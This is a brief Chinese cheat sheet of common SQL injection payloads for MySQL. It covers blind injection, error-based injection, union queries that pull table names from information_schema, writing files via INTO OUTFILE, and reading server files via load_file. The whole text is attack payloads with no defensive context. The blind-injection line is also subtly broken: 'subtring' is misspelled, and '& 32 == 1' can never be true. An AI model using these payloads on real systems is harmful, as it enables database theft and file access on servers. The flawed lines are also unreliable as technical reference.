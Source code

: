 常用Payload
================================


盲注

::

    ascii(subtring(str,pos,length)) & 32 == 1

报错注入

::

    select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;


获取表名

::

    union select table_name,2,3,4 from information_schema.tables where table_schema = database()

写文件

::

    union select 1,1,1 into outfile '/demo.txt'

读文件

::

    select @@datadir
    select load_file('databasename/tablename.MYD')
